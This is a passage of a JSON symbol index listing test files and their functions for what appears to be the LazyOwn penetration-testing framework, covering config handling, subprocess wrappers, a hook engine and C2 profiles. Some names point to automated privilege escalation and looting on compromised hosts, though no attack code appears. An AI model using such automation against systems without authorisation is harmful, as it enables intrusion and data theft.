"def test_is_pending_helper(self)"}, {"kind": "method", "line": 154, "name": "test_subclass_inherits_pending_flag", "signature": "def test_subclass_inherits_pending_flag(self)"}, {"kind": "method", "line": 162, "name": "test_all_discovered_sets_are_active", "signature": "def test_all_discovered_sets_are_active(self)"}, {"kind": "method", "line": 169, "name": "test_active_sets_excluded_when_pending_skipped", "signature": "def test_active_sets_excluded_when_pending_skipped(self)"}, {"kind": "method", "line": 175, "name": "test_register_includes_migrated_sets", "signature": "def test_register_includes_migrated_sets(self)"}, {"kind": "method", "line": 199, "name": "_make_set", "signature": "def _make_set(self)"}, {"kind": "method", "line": 207, "name": "test_unregistered_params_default_empty", "signature": "def test_unregistered_params_default_empty(self)"}, {"kind": "method", "line": 211, "name": "test_unregistered_forwarding_raises_attribute_error", "signature": "def test_unregistered_forwarding_raises_attribute_error(self)"}, {"kind": "method", "line": 216, "name": "test_registered_params_reflect_shell", "signature": "def test_registered_params_reflect_shell(self)"}, {"kind": "method", "line": 229, "name": "test_registered_forwards_shell_methods", "signature": "def test_registered_forwards_shell_methods(self)"}, {"kind": "method", "line": 251, "name": "migrated_modules", "signature": "def migrated_modules(self)"}, {"kind": "method", "line": 255, "name": "module_names", "signature": "def module_names(self, migrated_modules)"}, {"kind": "method", "line": 258, "name": "test_all_modules_discoverable", "signature": "def test_all_modules_discoverable(self, migrated_modules)"}, {"kind": "method", "line": 261, "name": "test_all_active_and_have_phase", "signature": "def test_all_active_and_have_phase(self, migrated_modules)"}, {"kind": "method", "line": 273, "name": "test_each_module_has_do_methods", "signature": "def test_each_module_has_do_methods(self, migrated_modules)"}, {"doc": "Only infrastructure methods remain on LazyOwnShell.", "kind": "method", "line": 285, "name": "test_no_do_methods_remain_on_shell", "signature": "def test_no_do_methods_remain_on_shell(self)"}, {"doc": "Every migrated ``do_*`` method is absent from LazyOwnShell.", "kind": "method", "line": 295, "name": "test_migrated_methods_not_duplicated_on_shell", "signature": "def test_migrated_methods_not_duplicated_on_shell(self)"}, {"kind": "method", "line": 314, "name": "module_names", "signature": "def module_names(self)"}, {"kind": "method", "line": 317, "name": "test_no_forbidden_markers", "signature": "def test_no_forbidden_markers(self, module_names)"}, {"kind": "method", "line": 325, "name": "test_no_emoji", "signature": "def test_no_emoji(self, module_names)"}, {"kind": "method", "line": 345, "name": "test_every_module_is_parseable", "signature": "def test_every_module_is_parseable(self, module_names)"}, {"kind": "class", "line": 157, "name": "_Sample", "signature": "class _Sample(PendingCommandSet)"}, {"kind": "class", "line": 180, "name": "_Bare", "signature": "class _Bare(Cmd)"}, {"kind": "class", "line": 202, "name": "_Probe", "signature": "class _Probe(LazyOwnCommandSet)"}, {"kind": "class", "line": 219, "name": "_Shell", "signature": "class _Shell(Cmd)"}, {"kind": "class", "line": 234, "name": "_Shell", "signature": "class _Shell(Cmd)"}, {"kind": "method", "line": 181, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 220, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 235, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 239, "name": "cmd", "signature": "def cmd(self, line)"}]}, {"doc": "Tests for extended HookEngine trigger matching.  Covers: - _contains suffix matching (substring, case-insensitive) - Case-insensitive exact matching - Case-insensitive list matching - Host-owned default rule", "id": "tests/test_conditional_hooks_extended.py", "kind": "module", "label": "test_conditional_hooks_extended.py", "language": "py", "sha256": "3e49597604c97515", "symbol_count": 17, "symbols": [{"kind": "function", "line": 21, "name": "engine", "signature": "def engine()"}, {"kind": "class", "line": 30, "name": "TestTriggerMatchContainsSuffix", "signature": "class TestTriggerMatchContainsSuffix"}, {"kind": "class", "line": 64, "name": "TestTriggerMatchCaseInsensitive", "signature": "class TestTriggerMatchCaseInsensitive"}, {"kind": "function", "line": 90, "name": "_match_rule", "signature": "def _match_rule(rule, event, context)"}, {"kind": "class", "line": 96, "name": "TestDefaultRuleAutoPrivesc", "signature": "class TestDefaultRuleAutoPrivesc"}, {"kind": "function", "line": 118, "name": "_load_default_rules", "signature": "def _load_default_rules()"}, {"kind": "method", "line": 31, "name": "test_command_contains_substring_match", "signature": "def test_command_contains_substring_match(self)"}, {"kind": "method", "line": 39, "name": "test_command_contains_case_insensitive", "signature": "def test_command_contains_case_insensitive(self)"}, {"kind": "method", "line": 47, "name": "test_command_contains_no_match", "signature": "def test_command_contains_no_match(self)"}, {"kind": "method", "line": 55, "name": "test_command_contains_missing_key", "signature": "def test_command_contains_missing_key(self)"}, {"kind": "method", "line": 65, "name": "test_exact_match_case_insensitive", "signature": "def test_exact_match_case_insensitive(self)"}, {"kind": "method", "line": 73, "name": "test_list_match_case_insensitive", "signature": "def test_list_match_case_insensitive(self)"}, {"kind": "method", "line": 81, "name": "test_exact_match_different_event", "signature": "def test_exact_match_different_event(self)"}, {"kind": "method", "line": 97, "name": "test_auto_privesc_linux_rule_exists", "signature": "def test_auto_privesc_linux_rule_exists(self)"}, {"kind": "method", "line": 102, "name": "test_auto_privesc_windows_rule_exists", "signature": "def test_auto_privesc_windows_rule_exists(self)"}, {"kind": "method", "line": 107, "name": "test_auto_crystal_ball_rule_exists", "signature": "def test_auto_crystal_ball_rule_exists(self)"}, {"kind": "method", "line": 112, "name": "test_auto_loot_on_owned_rule_exists", "signature": "def test_auto_loot_on_owned_rule_exists(self)"}]}, {"doc": "Non-blocking stdio hardening: logging must never crash the shell.", "id": "tests/test_console_stdio.py", "kind": "module", "label": "test_console_stdio.py", "language": "py", "sha256": "7e358edbf2b4b50e", "symbol_count": 14, "symbols": [{"doc": "Stdout double failing the first write with BlockingIOError.", "kind": "class", "line": 19, "name": "_FailOnce", "signature": "class _FailOnce"}, {"doc": "Stdout/stderr double that always fails.", "kind": "class", "line": 42, "name": "_AlwaysFail", "signature": "class _AlwaysFail"}, {"doc": "Healthy stdout writes through and reports success.", "kind": "function", "line": 57, "name": "test_write_stdout_normal_path", "signature": "def test_write_stdout_normal_path(capsys)"}, {"doc": "One BlockingIOError is absorbed; the retry delivers the text.", "kind": "function", "line": 63, "name": "test_write_stdout_recovers_after_blocking_error", "signature": "def test_write_stdout_recovers_after_blocking_error(monkeypatch)"}, {"doc": "Total stdio failure degrades silently instead of killing the op.", "kind": "function", "line": 71, "name": "test_write_stdout_never_raises", "signature": "def test_write_stdout_never_raises(monkeypatch)"}, {"doc": "The error path from the reported crash no longer double-faults.", "kind": "function", "line": 78, "name": "test_print_error_survives_broken_stdout", "signature": "def test_print_error_survives_broken_stdout(monkeypatch, capsys)"}, {"doc": "Fd repair is best-effort on any stdio shape.", "kind": "function", "line": 86, "name": "test_ensure_blocking_stdio_never_raises", "signature": "def test_ensure_blocking_stdio_never_raises()"}, {"kind": "method", "line": 22, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Raise once, then accept.", "kind": "method", "line": 26, "name": "write", "signature": "def write(self, data)"}, {"doc": "No-op flush.", "kind": "method", "line": 34, "name": "flush", "signature": "def flush(self)"}, {"doc": "Invalid fd so fd-level repair is skipped.", "kind": "method", "line": 37, "name": "fileno", "signature": "def fileno(self)"}, {"doc": "Always raise.", "kind": "method", "line": 45, "name": "write", "signature": "def write(self, data)"}, {"doc": "No-op flush.", "kind": "method", "line": 49, "name": "flush", "signature": "def flush(self)"}, {"doc": "Invalid fd so fd-level repair is skipped.", "kind": "method", "line": 52, "name": "fileno", "signature": "def fileno(self)"}]}, {"doc": "Tests for the contract manifest drift checker.  The checker is the CI gate that keeps the documented contract tables and the public import examples honest. These tests pin the positive case on the real repository and the negative cases on a synthetic tree.", "id": "tests/test_contract_manifest.py", "kind": "module", "label": "test_contract_manifest.py", "language": "py", "sha256": "f5c51fd893d13a55", "symbol_count": 4, "symbols": [{"doc": "The real repository must not report contract drift.", "kind": "function", "line": 19, "name": "test_default_manifest_is_consistent", "signature": "def test_default_manifest_is_consistent()"}, {"doc": "A contract table that cites a missing module is drift.", "kind": "function", "line": 24, "name": "test_missing_module_reference_is_reported", "signature": "def test_missing_module_reference_is_reported(tmp_path)"}, {"doc": "A public import example that names a missing symbol is drift.", "kind": "function", "line": 38, "name": "test_missing_public_import_is_reported", "signature": "def test_missing_public_import_is_reported(tmp_path)"}, {"doc": "Symbol resolution parses the file and never executes it.", "kind": "function", "line": 47, "name": "test_dotted_symbol_exists_uses_ast_not_import", "signature": "def test_dotted_symbol_exists_uses_ast_not_import(tmp_path)"}]}, {"doc": "``core`` package and ``utils`` re-export tests.  Validate the ``core/`` package layout and confirm ``utils.py`` continues to re-export every public name so the CLI commands and the C2 routes that import from ``utils`` keep working.", "id": "tests/test_core.py", "kind": "module", "label": "test_core.py", "language": "py", "sha256": "d3a6da69c47b1341", "symbol_count": 47, "symbols": [{"doc": "Execute ``snippet`` in a clean subprocess so utils.py argv parsing does not fire.", "kind": "function", "line": 23, "name": "_run_in_subprocess", "signature": "def _run_in_subprocess(snippet)"}, {"doc": "Each ``core`` module must exist and parse cleanly.", "kind": "class", "line": 37, "name": "TestCorePackageStructure", "signature": "class TestCorePackageStructure"}, {"doc": "ANSI constants and print helpers.", "kind": "class", "line": 50, "name": "TestCoreConsole", "signature": "class TestCoreConsole"}, {"doc": "Config wrapper, load_payload, save_payload.", "kind": "class", "line": 110, "name": "TestCoreConfig", "signature": "class TestCoreConfig"}, {"doc": "xor_encrypt_decrypt is symmetric and matches legacy behavior.", "kind": "class", "line": 156, "name": "TestCoreCrypto", "signature": "class TestCoreCrypto"}, {"doc": "Validators short-circuit cleanly without raising.", "kind": "class", "line": 190, "name": "TestCoreValidators", "signature": "class TestCoreValidators"}, {"doc": "Protocols are runtime-checkable structural types.", "kind": "class", "line": 236, "name": "TestCoreProtocols", "signature": "class TestCoreProtocols"}, {"doc": "utils.py must still expose every public symbol the ``core`` package owns.", "kind": "class", "line": 268, "name": "TestUtilsBackwardsCompat", "signature": "class TestUtilsBackwardsCompat"}, {"doc": "utils.py must still parse and import without exploding.", "kind": "class", "line": 355, "name": "TestUtilsParsesAndRunsAfterRefactor", "signature": "class TestUtilsParsesAndRunsAfterRefactor"}, {"kind": "method", "line": 44, "name": "test_module_exists_and_parses", "signature": "def test_module_exists_and_parses(self, module)"}, {"kind": "method", "line": 53, "name": "test_ansi_constants_have_escape_prefix", "signature": "def test_ansi_constants_have_escape_prefix(self)"}, {"kind": "method", "line": 60, "name": "test_print_msg_writes_green_payload", "signature": "def test_print_msg_writes_green_payload(self, capsys)"}, {"kind": "method", "line": 69, "name": "test_print_error_writes_red_payload", "signature": "def test_print_error_writes_red_payload(self, capsys)"}, {"kind": "method", "line": 78, "name": "test_print_warn_writes_warn_glyph", "signature": "def test_print_warn_writes_warn_glyph(self, capsys)"}, {"kind": "method", "line": 87, "name": "test_ascii_glyphs_by_default_emoji_opt_in", "signature": "def test_ascii_glyphs_by_default_emoji_opt_in(self, capsys, monkeypatch)"}, {"kind": "method", "line": 100, "name": "test_surrogate_chars_are_stripped", "signature": "def test_surrogate_chars_are_stripped(self, capsys)"}, {"kind": "method", "line": 113, "name": "test_config_attribute_and_item_access", "signature": "def test_config_attribute_and_item_access(self)"}, {"kind": "method", "line": 121, "name": "test_config_missing_key_returns_none", "signature": "def test_config_missing_key_returns_none(self)"}, {"kind": "method", "line": 127, "name": "test_load_payload_reads_real_file", "signature": "def test_load_payload_reads_real_file(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 136, "name": "test_save_payload_is_atomic", "signature": "def test_save_payload_is_atomic(self, tmp_path)"}, {"kind": "method", "line": 147, "name": "test_save_payload_creates_parent_dirs", "signature": "def test_save_payload_creates_parent_dirs(self, tmp_path)"}, {"kind": "method", "line": 159, "name": "test_roundtrip", "signature": "def test_roundtrip(self)"}, {"kind": "method", "line": 168, "name": "test_returns_bytearray", "signature": "def test_returns_bytearray(self)"}, {"kind": "method", "line": 175, "name": "test_empty_key_raises", "signature": "def test_empty_key_raises(self)"}, {"kind": "method", "line": 182, "name": "test_matches_legacy_known_vector", "signature": "def test_matches_legacy_known_vector(self)"}, {"kind": "method", "line": 193, "name": "test_check_rhost_truthy", "signature": "def test_check_rhost_truthy(self)"}, {"kind": "method", "line": 199, "name": "test_check_rhost_empty_returns_false", "signature": "def test_check_rhost_empty_returns_false(self, capsys)"}, {"kind": "method", "line": 206, "name": "test_check_lhost_empty", "signature": "def test_check_lhost_empty(self, capsys)"}, {"kind": "method", "line": 213, "name": "test_check_lport_zero_falsy", "signature": "def test_check_lport_zero_falsy(self, capsys)"}, {"kind": "method", "line": 219, "name": "test_check_port_valid_range", "signature": "def test_check_port_valid_range(self)"}, {"kind": "method", "line": 227, "name": "test_check_port_invalid", "signature": "def test_check_port_invalid(self, capsys)"}, {"kind": "method", "line": 239, "name": "test_protocols_importable", "signature": "def test_protocols_importable(self)"}, {"kind": "method", "line": 246, "name": "test_selector_protocol_accepts_conforming_object", "signature": "def test_selector_protocol_accepts_conforming_object(self)"}, {"kind": "method", "line": 258, "name": "test_llm_backend_protocol_rejects_nonconforming", "signature": "def test_llm_backend_protocol_rejects_nonconforming(self)"}, {"kind": "method", "line": 303, "name": "test_symbol_is_re_exported", "signature": "def test_symbol_is_re_exported(self, name)"}, {"doc": "utils.py must not redefine Config — it must come from core.", "kind": "method", "line": 309, "name": "test_utils_no_inline_config_class", "signature": "def test_utils_no_inline_config_class(self)"}, {"doc": "utils.py must not redefine load_payload — it must come from core.", "kind": "method", "line": 315, "name": "test_utils_no_inline_load_payload", "signature": "def test_utils_no_inline_load_payload(self)"}, {"kind": "method", "line": 321, "name": "test_utils_no_inline_xor", "signature": "def test_utils_no_inline_xor(self)"}, {"kind": "method", "line": 326, "name": "test_utils_no_inline_validators", "signature": "def test_utils_no_inline_validators(self)"}, {"kind": "method", "line": 335, "name": "test_utils_no_inline_print_helpers", "signature": "def test_utils_no_inline_print_helpers(self)"}, {"kind": "method", "line": 344, "name": "test_utils_imports_from_core", "signature": "def test_utils_imports_from_core(self)"}, {"kind": "method", "line": 358, "name": "test_parses", "signature": "def test_parses(self)"}, {"kind": "method", "line": 361, "name": "test_imports_in_clean_subprocess", "signature": "def test_imports_in_clean_subprocess(self)"}, {"kind": "method", "line": 365, "name": "test_load_payload_via_utils_returns_payload", "signature": "def test_load_payload_via_utils_returns_payload(self)"}, {"kind": "class", "line": 250, "name": "Dummy", "signature": "class Dummy"}, {"kind": "class", "line": 262, "name": "Bogus", "signature": "class Bogus"}, {"kind": "method", "line": 253, "name": "suggest", "signature": "def suggest(self, target, phase, context)"}]}, {"doc": "Tests for core.command_bridge — CommandBridge lazy shell facade.", "id": "tests/test_core_command_bridge.py", "kind": "module", "label": "test_core_command_bridge.py", "language": "py", "sha256": "77f443fd3466b0d5", "symbol_count": 14, "symbols": [{"doc": "Reset the module-level singleton before each test.", "kind": "function", "line": 16, "name": "_reset_bridge_singleton", "signature": "def _reset_bridge_singleton()"}, {"doc": "Tests for :class:`CommandBridge` construction and initial state.", "kind": "class", "line": 25, "name": "TestCommandBridgeInitialization", "signature": "class TestCommandBridgeInitialization"}, {"doc": "Tests for :meth:`CommandBridge.onecmd`.", "kind": "class", "line": 51, "name": "TestCommandBridgeOnecmd", "signature": "class TestCommandBridgeOnecmd"}, {"doc": "Tests for :meth:`CommandBridge.one_cmd` and :meth:`CommandBridge.execute`.", "kind": "class", "line": 96, "name": "TestCommandBridgeOneCmdAlias", "signature": "class TestCommandBridgeOneCmdAlias"}, {"doc": "CommandBridge is not ready until _ensure_shell succeeds.", "kind": "method", "line": 28, "name": "test_ready_is_false_initially", "signature": "def test_ready_is_false_initially(self)"}, {"doc": "CommandBridge.error is None before any initialization attempt.", "kind": "method", "line": 35, "name": "test_error_is_none_initially", "signature": "def test_error_is_none_initially(self)"}, {"doc": "get_bridge always returns the same CommandBridge instance.", "kind": "method", "line": 42, "name": "test_get_bridge_returns_same_singleton", "signature": "def test_get_bridge_returns_same_singleton(self, _reset_bridge_singleton)"}, {"doc": "onecmd returns an empty string when given an empty or blank command.", "kind": "method", "line": 54, "name": "test_empty_command_returns_empty_string", "signature": "def test_empty_command_returns_empty_string(self)"}, {"doc": "onecmd does not crash and handles init failures gracefully.", "kind": "method", "line": 62, "name": "test_nonexistent_command_returns_error_string", "signature": "def test_nonexistent_command_returns_error_string(self)"}, {"doc": "Concurrent onecmd calls from multiple threads do not crash.", "kind": "method", "line": 74, "name": "test_thread_safety_multiple_threads", "signature": "def test_thread_safety_multiple_threads(self)"}, {"doc": "one_cmd returns an empty string when given an empty command.", "kind": "method", "line": 99, "name": "test_empty_command_returns_empty", "signature": "def test_empty_command_returns_empty(self)"}, {"doc": "execute delegates to one_cmd and returns a string for empty input.", "kind": "method", "line": 107, "name": "test_execute_alias_returns_string", "signature": "def test_execute_alias_returns_string(self)"}, {"doc": "one_cmd reports an unknown command to the operator.", "kind": "method", "line": 116, "name": "test_nonexistent_lazy_loaded_cmd_returns_error", "signature": "def test_nonexistent_lazy_loaded_cmd_returns_error(self)"}, {"kind": "function", "line": 81, "name": "call_onecmd", "signature": "def call_onecmd()"}]}, {"doc": "Tests for core.config — Config wrapper, load_payload, save_payload, load_and_validate.", "id": "tests/test_core_config.py", "kind": "module", "label": "test_core_config.py", "language": "py", "sha256": "5490b5cca35f6378", "symbol_count": 19, "symbols": [{"doc": "Tests for :func:`core.config.load_payload`.", "kind": "class", "line": 15, "name": "TestLoadPayload", "signature": "class TestLoadPayload"}, {"doc": "Tests for :func:`core.config.save_payload`.", "kind": "class", "line": 76, "name": "TestSavePayload", "signature": "class TestSavePayload"}, {"doc": "Tests for the :class:`core.config.Config` wrapper.", "kind": "class", "line": 99, "name": "TestConfig", "signature": "class TestConfig"}, {"doc": "Tests for :func:`core.config.load_and_validate`.", "kind": "class", "line": 149, "name": "TestLoadAndValidate", "signature": "class TestLoadAndValidate"}, {"doc": "load_payload returns a dictionary containing the keys that were saved.", "kind": "method", "line": 18, "name": "test_returns_dict_with_expected_keys", "signature": "def test_returns_dict_with_expected_keys(self, tmp_path)"}, {"doc": "Values survive a full save-then-load cycle unchanged.", "kind": "method", "line": 29, "name": "test_roundtrips_values_correctly", "signature": "def test_roundtrips_values_correctly(self, tmp_path)"}, {"doc": "load_payload raises JSONDecodeError when the file is not valid JSON.", "kind": "method", "line": 45, "name": "test_handles_malformed_json", "signature": "def test_handles_malformed_json(self, tmp_path)"}, {"doc": "When payload.json is missing but payload.example.json exists, copy from the example.", "kind": "method", "line": 54, "name": "test_copies_from_example_when_payload_missing", "signature": "def test_copies_from_example_when_payload_missing(self, tmp_path)"}, {"doc": "load_payload raises FileNotFoundError when neither payload nor example exists.", "kind": "method", "line": 67, "name": "test_raises_when_both_payload_and_example_missing", "signature": "def test_raises_when_both_payload_and_example_missing(self, tmp_path)"}, {"doc": "save_payload writes atomically with no .tmp files left behind.", "kind": "method", "line": 79, "name": "test_atomic_write_no_leftover_tmp", "signature": "def test_atomic_write_no_leftover_tmp(self, tmp_path)"}, {"doc": "save_payload creates intermediate directories that do not exist.", "kind": "method", "line": 90, "name": "test_creates_parent_directories", "signature": "def test_creates_parent_directories(self, tmp_path)"}, {"doc": "Config attributes match the underlying dictionary keys.", "kind": "method", "line": 102, "name": "test_attribute_access_for_known_keys", "signature": "def test_attribute_access_for_known_keys(self)"}, {"doc": "Config[...] delegates to attribute access.", "kind": "method", "line": 111, "name": "test_item_access_for_known_keys", "signature": "def test_item_access_for_known_keys(self)"}, {"doc": "Missing keys return None instead of raising.", "kind": "method", "line": 118, "name": "test_unknown_key_returns_none", "signature": "def test_unknown_key_returns_none(self)"}, {"doc": "as_params returns a shallow copy of the underlying dict.", "kind": "method", "line": 126, "name": "test_as_params_returns_shallow_copy", "signature": "def test_as_params_returns_shallow_copy(self)"}, {"doc": "Config resolves or generates a 64-char hex aes_key on construction.", "kind": "method", "line": 137, "name": "test_aes_key_is_resolved_and_hex", "signature": "def test_aes_key_is_resolved_and_hex(self)"}, {"doc": "load_and_validate returns a dict with payload, valid, warnings, errors, issues.", "kind": "method", "line": 152, "name": "test_returns_validation_results_dict", "signature": "def test_returns_validation_results_dict(self, tmp_path)"}, {"doc": "Required fields missing from the payload yield error-level issues.", "kind": "method", "line": 169, "name": "test_missing_required_fields_reported_as_errors", "signature": "def test_missing_required_fields_reported_as_errors(self, tmp_path)"}, {"doc": "Malformed values produce warning-level issues.", "kind": "method", "line": 180, "name": "test_invalid_types_reported_as_warnings", "signature": "def test_invalid_types_reported_as_warnings(self, tmp_path)"}]}, {"doc": "Build-time defaults are data, not literals.  SDD contract: ``config/defaults.toml`` owns fallback ports, wordlists and paths; ``core/defaults.py`` is its only reader. Migrated call sites must resolve through the typed helpers so editing the TOML changes behavior without touching Python.", "id": "tests/test_core_defaults.py", "kind": "module", "label": "test_core_defaults.py", "language": "py", "sha256": "007265ff1fe4d23e", "symbol_count": 20, "symbols": [{"kind": "function", "line": 22, "name": "_fresh_cache", "signature": "def _fresh_cache()"}, {"kind": "class", "line": 28, "name": "TestLoader", "signature": "class TestLoader"}, {"kind": "class", "line": 50, "name": "TestCallSitesMigrated", "signature": "class TestCallSitesMigrated"}, {"kind": "class", "line": 84, "name": "TestWizardAndGui", "signature": "class TestWizardAndGui"}, {"kind": "class", "line": 117, "name": "TestGuiFunctional", "signature": "class TestGuiFunctional"}, {"kind": "method", "line": 29, "name": "test_sections_present", "signature": "def test_sections_present(self)"}, {"kind": "method", "line": 33, "name": "test_typed_helpers", "signature": "def test_typed_helpers(self)"}, {"kind": "method", "line": 41, "name": "test_missing_file_fails_closed", "signature": "def test_missing_file_fails_closed(self, tmp_path)"}, {"kind": "method", "line": 45, "name": "test_get_fallback", "signature": "def test_get_fallback(self)"}, {"kind": "method", "line": 58, "name": "test_no_hardcoded_rockyou_in_logic", "signature": "def test_no_hardcoded_rockyou_in_logic(self)"}, {"kind": "method", "line": 68, "name": "test_no_hardcoded_default_lport", "signature": "def test_no_hardcoded_default_lport(self)"}, {"kind": "method", "line": 78, "name": "test_helpers_imported", "signature": "def test_helpers_imported(self)"}, {"kind": "method", "line": 85, "name": "test_wizard_command_exists", "signature": "def test_wizard_command_exists(self)"}, {"kind": "method", "line": 96, "name": "test_overrides_map_to_schema_keys", "signature": "def test_overrides_map_to_schema_keys(self)"}, {"kind": "method", "line": 104, "name": "test_gui_routes_exist", "signature": "def test_gui_routes_exist(self)"}, {"kind": "method", "line": 110, "name": "test_gui_never_rewrites_toml", "signature": "def test_gui_never_rewrites_toml(self)"}, {"kind": "method", "line": 119, "name": "client", "signature": "def client(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 130, "name": "test_get_defaults", "signature": "def test_get_defaults(self, client)"}, {"kind": "method", "line": 137, "name": "test_post_defaults_rejects_unknown", "signature": "def test_post_defaults_rejects_unknown(self, client)"}, {"kind": "method", "line": 141, "name": "test_post_defaults_rejects_bad_port", "signature": "def test_post_defaults_rejects_bad_port(self, client)"}]}, {"doc": "Tests for core.executor — safe_run and run_shell subprocess wrappers.", "id": "tests/test_core_executor.py", "kind": "module", "label": "test_core_executor.py", "language": "py", "sha256": "505e2bf91fafdf99", "symbol_count": 15, "symbols": [{"doc": "Tests for :func:`core.executor.safe_run`.", "kind": "class", "line": 15, "name": "TestSafeRun", "signature": "class TestSafeRun"}, {"doc": "Tests for :func:`core.executor.run_shell`.", "kind": "class", "line": 84, "name": "TestRunShell", "signature": "class TestRunShell"}, {"doc": "safe_run with a list returns a CompletedProcess and captures stdout.", "kind": "method", "line": 18, "name": "test_echo_hello_returns_completed_process_with_stdout", "signature": "def test_echo_hello_returns_completed_process_with_stdout(self)"}, {"doc": "safe_run with the false command returns a non-zero exit code.", "kind": "method", "line": 27, "name": "test_false_command_returns_nonzero", "signature": "def test_false_command_returns_nonzero(self)"}, {"doc": "safe_run raises ValueError when given an empty list.", "kind": "method", "line": 34, "name": "test_empty_list_raises_value_error", "signature": "def test_empty_list_raises_value_error(self)"}, {"doc": "safe_run raises ValueError when given a whitespace-only string.", "kind": "method", "line": 41, "name": "test_empty_string_raises_value_error", "signature": "def test_empty_string_raises_value_error(self)"}, {"doc": "safe_run raises TimeoutExpired when the command exceeds the timeout.", "kind": "method", "line": 48, "name": "test_timeout_raises_timeout_expired", "signature": "def test_timeout_raises_timeout_expired(self)"}, {"doc": "safe_run rejects null bytes inside list arguments.", "kind": "method", "line": 55, "name": "test_null_bytes_in_list_arg_raises_value_error", "signature": "def test_null_bytes_in_list_arg_raises_value_error(self)"}, {"doc": "safe_run rejects null bytes inside a command string.", "kind": "method", "line": 62, "name": "test_null_bytes_in_string_raises_value_error", "signature": "def test_null_bytes_in_string_raises_value_error(self)"}, {"doc": "safe_run raises TypeError when command is neither str nor list.", "kind": "method", "line": 69, "name": "test_bad_type_raises_type_error", "signature": "def test_bad_type_raises_type_error(self)"}, {"doc": "safe_run raises ValueError when timeout is below the valid range.", "kind": "method", "line": 76, "name": "test_timeout_below_minimum_raises_value_error", "signature": "def test_timeout_below_minimum_raises_value_error(self)"}, {"doc": "run_shell returns stripped stdout of a successful command.", "kind": "method", "line": 87, "name": "test_echo_hello_returns_stdout_string", "signature": "def test_echo_hello_returns_stdout_string(self)"}, {"doc": "run_shell raises CalledProcessError when the command exits non-zero.", "kind": "method", "line": 95, "name": "test_nonzero_exit_raises_called_process_error", "signature": "def test_nonzero_exit_raises_called_process_error(self)"}, {"doc": "run_shell supports shell-builtins like pipes.", "kind": "method", "line": 102, "name": "test_pipes_and_redirects_work", "signature": "def test_pipes_and_redirects_work(self)"}, {"doc": "run_shell strips leading and trailing whitespace from stdout.", "kind": "method", "line": 109, "name": "test_stdout_is_stripped_of_whitespace", "signature": "def test_stdout_is_stripped_of_whitespace(self)"}]}, {"doc": "tests/test_core_modules.py Integration test suite for LazyOwn core modules.", "id": "tests/test_core_modules.py", "kind": "module", "label": "test_core_modules.py", "language": "py", "sha256": "c98aca625c0e629c", "symbol_count": 94, "symbols": [{"kind": "function", "line": 16, "name": "test_obs_parser_nmap", "signature": "def test_obs_parser_nmap()"}, {"kind": "function", "line": 31, "name": "test_obs_parser_empty", "signature": "def test_obs_parser_empty()"}, {"kind": "function", "line": 39, "name": "test_obs_parser_error", "signature": "def test_obs_parser_error()"}, {"kind": "function", "line": 47, "name": "test_world_model_basic", "signature": "def test_world_model_basic(tmp_path)"}, {"kind": "function", "line": 57, "name": "test_world_model_persistence", "signature": "def test_world_model_persistence(tmp_path)"}, {"kind": "function", "line": 68, "name": "test_world_model_from_findings", "signature": "def test_world_model_from_findings()"}, {"kind": "function", "line": 79, "name": "test_playbook_engine_derive_save_load", "signature": "def test_playbook_engine_derive_save_load(tmp_path)"}, {"kind": "function", "line": 90, "name": "test_playbook_engine_execute", "signature": "def test_playbook_engine_execute()"}, {"kind": "function", "line": 115, "name": "test_cve_matcher", "signature": "def test_cve_matcher()"}, {"kind": "function", "line": 124, "name": "test_cvss_critical", "signature": "def test_cvss_critical()"}, {"kind": "function", "line": 132, "name": "test_cvss_medium", "signature": "def test_cvss_medium()"}, {"kind": "function", "line": 139, "name": "test_cvss_from_nvd", "signature": "def test_cvss_from_nvd()"}, {"kind": "function", "line": 148, "name": "test_report_with_data", "signature": "def test_report_with_data(tmp_path)"}, {"kind": "function", "line": 170, "name": "test_report_empty", "signature": "def test_report_empty(tmp_path)"}, {"kind": "function", "line": 180, "name": "test_memory_remember_recall", "signature": "def test_memory_remember_recall(tmp_path)"}, {"kind": "function", "line": 190, "name": "test_memory_by_host", "signature": "def test_memory_by_host(tmp_path)"}, {"kind": "function", "line": 200, "name": "test_memory_export", "signature": "def test_memory_export(tmp_path)"}, {"kind": "function", "line": 215, "name": "test_llm_evaluator", "signature": "def test_llm_evaluator(tmp_path)"}, {"kind": "function", "line": 226, "name": "test_llm_evaluator_report", "signature": "def test_llm_evaluator_report(tmp_path)"}, {"kind": "function", "line": 238, "name": "test_llm_evaluator_empty", "signature": "def test_llm_evaluator_empty(tmp_path)"}, {"kind": "function", "line": 246, "name": "test_searchsploit_graceful", "signature": "def test_searchsploit_graceful()"}, {"kind": "function", "line": 253, "name": "test_searchsploit_client", "signature": "def test_searchsploit_client()"}, {"kind": "function", "line": 262, "name": "test_misp_export", "signature": "def test_misp_export(tmp_path)"}, {"kind": "function", "line": 290, "name": "test_dashboard_endpoints", "signature": "def test_dashboard_endpoints()"}, {"kind": "function", "line": 320, "name": "test_collab_endpoints", "signature": "def test_collab_endpoints()"}, {"kind": "function", "line": 340, "name": "test_c2_profile_builtins", "signature": "def test_c2_profile_builtins()"}, {"kind": "function", "line": 351, "name": "test_c2_profile_jitter", "signature": "def test_c2_profile_jitter()"}, {"kind": "function", "line": 359, "name": "test_c2_profile_save_load", "signature": "def test_c2_profile_save_load(tmp_path)"}, {"kind": "function", "line": 370, "name": "test_config_store", "signature": "def test_config_store(tmp_path)"}, {"kind": "function", "line": 391, "name": "test_mcp_tools_registered", "signature": "def test_mcp_tools_registered()"}, {"kind": "function", "line": 417, "name": "test_bridge_catalog_phases", "signature": "def test_bridge_catalog_phases()"}, {"kind": "function", "line": 429, "name": "test_bridge_by_phase", "signature": "def test_bridge_by_phase()"}, {"kind": "function", "line": 439, "name": "test_bridge_service_match", "signature": "def test_bridge_service_match()"}, {"kind": "function", "line": 448, "name": "test_bridge_build_command", "signature": "def test_bridge_build_command()"}, {"kind": "function", "line": 464, "name": "test_bridge_suggest", "signature": "def test_bridge_suggest()"}, {"kind": "function", "line": 475, "name": "test_bridge_suggest_with_services", "signature": "def test_bridge_suggest_with_services()"}, {"kind": "function", "line": 485, "name": "test_bridge_suggest_excluded", "signature": "def test_bridge_suggest_excluded()"}, {"kind": "function", "line": 497, "name": "test_bridge_list_all_phases", "signature": "def test_bridge_list_all_phases()"}, {"kind": "function", "line": 